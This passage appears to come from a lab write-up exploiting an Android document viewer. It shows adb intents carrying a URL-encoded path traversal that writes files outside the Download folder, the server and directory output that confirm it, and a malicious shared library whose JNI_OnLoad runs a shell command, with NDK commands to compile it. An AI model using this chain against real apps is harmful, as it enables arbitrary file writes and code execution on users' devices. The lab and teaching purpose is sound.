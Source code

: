 After looking into my Download folder, the `dummy.pdf` is downloaded and saved inside the Download folder. I then tried to see if it's possible to save the file in other place. To do so, I started a simple web server that will just provide the same content even the file name is different. 

```powershell
PS C:\Users\kskin> adb shell am start -a android.intent.action.VIEW -d 'http://192.168.68.107:8000/test.pdf' -t application/pdf
Starting: Intent { act=android.intent.action.VIEW dat=http://192.168.68.107:8000/... typ=application/pdf }
PS C:\Users\kskin> adb shell am start -a android.intent.action.VIEW -d 'http://192.168.68.107:8000/..%2fDocuments%2ftest.pdf' -t application/pdf
Starting: Intent { act=android.intent.action.VIEW dat=http://192.168.68.107:8000/... typ=application/pdf }
```

```bash
python -c "from http.server import *;HTTPServer(('',8000),type('',(BaseHTTPRequestHandler,),{'do_GET':lambda s:(s.send_response(200),s.end_headers(),s.wfile.write(open('sample.pdf','rb').read()))})).serve_forever()"
192.168.68.109 - - [07/Apr/2025 23:46:51] "GET /test.pdf HTTP/1.1" 200 -
192.168.68.109 - - [07/Apr/2025 23:50:55] "GET /..%2fDocuments%2ftest.pdf HTTP/1.1" 200 -
```

I tried performing 2 intent where one contains a simple path traveral with url encoding to see if its possible to save the file in another directory.

```bash
beryllium:/data/media/0/Documents # ls -la
total 36
drwxrwsr-x  3 media_rw media_rw  4096 2025-04-07 23:50 .
drwxrws--- 24 media_rw media_rw  4096 2025-03-30 14:19 ..
-rw-rw-r--  1 media_rw media_rw 18810 2025-04-07 23:50 test.pdf
```

It is possible to write file into another directory. By abusing this vulnerability, it is possible for me to write a shared library into the specific directory but to do so, I will need to create one shared library. 

```cpp
#include <jni.h>
#include <cstdlib>

JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved) {
    system("whoami >> /sdcard/Download/test.txt");
    return JNI_VERSION_1_6;
}
```

I write a simple C++ code that abuse the `JNI_OnLoad` function to instead load the command execution when the shared library is loaded. 

```powershell
PS E:\Desktop\Android\APK\MHL> E:\\app\\android-sdk\\ndk\\27.0.12077973\\toolchains\\llvm\\prebuilt\\windows-x86_64\\bin\\clang++.exe --target=aarch64-none-linux-android30 --sysroot=E:/app/android-sdk/ndk/27.0.12077973/toolchains/llvm/prebuilt/windows-x86_64/sysroot -o .\test.cpp.o -c .\test.cpp
PS E:\Desktop\Android\APK\MHL> E:\\app\\android-sdk\\ndk\\27.0.12077973\\toolchains\\llvm\\prebuilt\\windows-x86_64\\bin\\clang++.exe --target=aarch64-none-linux-android30 --sysroot=E:/app/android-sdk/ndk/27.0.12077973/toolchains/llvm/prebuilt/windows-x86_64/sysroot --shared -static-libstdc++ -o .\libdocviewer_pro.so .\test.cpp.o
```
